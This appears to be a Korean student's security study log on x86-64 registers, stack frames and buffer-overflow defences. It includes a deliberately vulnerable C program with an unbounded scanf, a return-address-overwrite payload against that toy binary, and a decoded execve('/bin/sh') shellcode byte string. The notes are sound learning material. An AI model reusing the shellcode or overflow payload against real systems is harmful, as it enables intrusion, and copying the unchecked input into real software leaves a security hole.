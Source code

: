 # 📅 YYYY.MM.DD Study Log

## 📌 오늘 배운 개념 요약

- 
- 
- 

---

## ✅ Buffer Overflow 방어 기술 (정리 예시)

###rax, rbx, rsp, rbp 를 배웠다.
rbp (base pointer) ==> 함수의 시작주소. 
rsp (stack pointer) ==> 스택의 최상단 주소. 마치 하노이탑 맨위! (다만 실제 주소값은 위가 0 밑이 ffffffff 이다.) 위에서부터 낮은주소라 생각하면 편함. 
rbx ==> 가장 큰 특징. 어떤 함수 실행전 rbx를 사용하면? 함수 실행 전 rbx에 저장된 값을 반드시 함수 실행 후 복원함.

그래서 rbx가 들어간다하면  
어떤 함수에서 다른 함수로 갔어!  
push rbp  
mov rbp, rsp  
*push rbx*(스택 프레임 이후에 저장하는게 원칙)  
...  
pop rbx  
pop rbp   

- 가장 신기한점? ==> 스택에서 쌓였다가 사라지면서 끝난다! 마치 쏙 올라갔다 내려가는 자이로드롭? ㅋㅋㅋ 처럼
- 굉장히 체계적이고 철저하다. 이 아이디어 조금 멋있다.

함수의 인자는 rdi, rsi, rdx, rcx, r8, r9 순으로 전달.  
7번째 인자부터는 스택에 쌓인다. 함수 call 직전에 스택에 쌓이는데 쌓을 때는 마지막 인자부터 쌓는다. 7번재 인자의 주소 - rbp 이전 값 ...  

---

##x64 환경에서 존재하는 BOF 방어 기법들
1. **Canary** => sfp,ret 의 정보를 저장할 때, bof공격으로 덮어씌어지는 것을 방지하기 위해 sfp와 buffer 사이에 임의의 값을 추가함. 이게 변조된다? ==> bof로 탐지.
3. **ASLR**(Address Space Layout Randomization) ==> 메모리 랜덤화.
4. **PIE**(Position Independent Execution)
5. **NX**(Non excutable)

![image](https://github.com/user-attachments/assets/2c709cf7-8554-41fd-89d6-5c266a306a07)
![image](https://github.com/user-attachments/assets/d963f3ad-1d72-4610-b77e-2642e1d5ccee)


#include <stdio.h>

void secret(){
        printf("You hacked me!\n");
}
int main(){
        char buf[64];

        printf("Input: ");
        scanf("%s", buf);

        printf("You typed: %s\n", buf);

        return 0;
}


해당 코드의 scanf의 취약점을 활용하려 bof를 시도했다.
조건 

$gcc -g -fno-stack-protector -no-pie -o bof1 bof1.c
==> canary, aslr

파일에 설정된 보호기법 확인?
checksec --file=파일명

payload 작성
buffer[64] + SFP[8] + 덮어쓸 주소[8]

gdb ./bof1
p $secret ==> secret 함수의 주소를 찾음.
python3 -c 'print("A"*64 + "B"*8 + "해당 주소")' | ./bof1
//출력: You hacked me!  

확인해보니 NX가 켜져있다. 다만 NX는 스택에서 실행되는 쉘코드를 막는 것! 나는 그냥 주소만 넣었을 뿐.

---

머신코드?  
\x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05  


***\x48\x31\xc0***  
\x48 ==> REX prefix ==> 64비트 연산한다. rax rbx 쓸거다?  
\x31 ==> opcode  
\xc0 ==> ModR/M 바이트. 11000000 (rax 두개 쓸거다)    
       =<span style="font-size: 12px; color: pink">xor rax, rax</span>
       
***\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00***  
\x48 ==> REX prefix  
\xbb ==> mov r64,imm64  OR  mov r32,imm32      ==> 미리 prifix 해두었기에 movabs rbx, imm64 (만약 없으면 32bit로 쓰임)  
\x2f\x62\x69\x6e\x2f\x73\x68\x00 ==> 리틀엔디언으로 '/bin/sh\0'  
       =<span style="font-size: 12px; color: pink">movabs rbx,  0x0068732f6e69622f</span>
       
***\x53***  
\x53 ==> push rbx (리틀엔디언 형식으로 저장!!! )  
       = <span style="font-size: 12px; color: pink">push rbx</span>
       
***\x48\x89\xe7***  
\x48  
\x89 ==> mov r/m64, r64 "오른쪽 레지스터 값을 왼쪽에 복사."  
\xe7 ==> 11100111 mod = 11, reg = 100, rsp = 111  
       = <span style="font-size: 12px; color: pink">mov rdi, rsp</span> (rdi 레지스터에 /bin/sh 문자열의 주소를 넣음)  
(참고자료)
![image](https://github.com/user-attachments/assets/00e78af8-872f-436e-aa93-639cd4fa5b7d)
![image](https://github.com/user-attachments/assets/1ab48fb3-2ebc-4576-b025-982a90972a25)

EAX	ECX	EDX	EBX	ESP	EBP	ESI	EDI  
000	001	010	011	100	101	110	111  

      
***\x48\x31\xf6***  
\x48 익숙하죠?  
\x31 ==> opcode xor r/m64, r64  
\xf6 ==> 11110110 mod = 11, reg = 000???, rm = 110  
       = <span style="font-size: 12px; color: pink">xor rsi, rsi</span> (rsi 레지스터를 0으로 초기화 = execve의 두번째 인자 NULL)  

***\x48\x31\xd2***  
\x48  
\x31  
\xd2 ==> mod = 11010010 mod = 11, reg = 010, rm = 010  
      = <span style="font-size: 12px; color: pink">xor rdx, rdx</span> (rdx 레지스터를 0으로 초기화 = 3번째 인자 NULL)  
      
***\xb0\x3b***  
\xb0 ==> mov al, immm8 (8비트를 al에 넣는다.)  
\x3b ==> 59(system call number 59.== execve)  
      = <span style="font-size: 12px; color: pink">mov al, 0x3b</span>
시스템콜 넘버는  
/usr/include/x86_64-linux-gnu/asm/unistd_64.h 여기서  cat해서 찾아보면 됨.  

***\x0f\x05***  
      = <span style="font-size: 12px; color: pink">syscall</span>

모두 합치면?  
xor rax, rax  
movabs rbx,  0x0068732f6e69622f  
push rbx  
mov rdi, rsp  
xor rsi, rsi  
xor rdx, rdx  
mov al, 0x3b  
syscall   

---

##rip(register instruction pointer) 레지스터, 32bit 에서는 eip

- instruction = cpu가 처리하는 기계어(명령어).
- rip는 CPU가 처리할 다음 명령어의 주소를 가짐.
- 즉, 명령1이 실행될 때 명령2의 주소를 갖고 있음. 끝나면 명령2를 실행할 때 rip는 명령3의 주소를 갖고 있음
- "다음은 여기야!" 라고 지정해주는 화살표.
- 기본적으로 instruction의 크기 

##함수 A가 실행중 다른 함수 B를 만났다.
#**call** 함수B (opcode)
- push rip(다음 실행 주소를 스택에 넣는다 == 리턴할 주소)
- jmp 함수B의 주소

***스택 프레임***
- psuh rbp
- mov rbp, rsp
- sub rsp, 할당크기 ==> 스택프레임의 초기 크기를 정함!
...
#**leave**
- mov rsp, rbp ==> 해주는 이유. "add rsp를 동일하게 하면 되는 거 아닌가?" NO 중간에 프레임의 크기가 커지거나 작아질 수 있기에 스택프레임의 시작 rbp로 초기화 해주는 것.
- pop rbp
#**ret**
- pop rip(이전에 저장해둔 리턴할 주소를 rip에 전달한다)
- jmp rip(해당 주소로 점프한다.)

??? 질문. call, leave, ret은 왜 씀? 어차피 풀어쓰면 기계어인데.  
==> 일일이 타이핑 귀찮아. 어셈블리어를 만든 CPU제조사에서 만든거임. cpu 내부에서만 돌아가는 흐름제어. 커널과 운영체제, 시스템콜과는 상관X

---

## 🧠 오늘의 느낀 점 ☑️


---
## ❓ 오늘의 궁금한 점 🔍


---

## 🔖 내일 목표 🎯

- [ ] CTF 문제 1개 풀고 write-up 작성
- [ ] 오늘의 궁금한 점 중 1개는 gdb로 실험
- [ ] 쉘코드 흐름 복습 및 시각화 정리


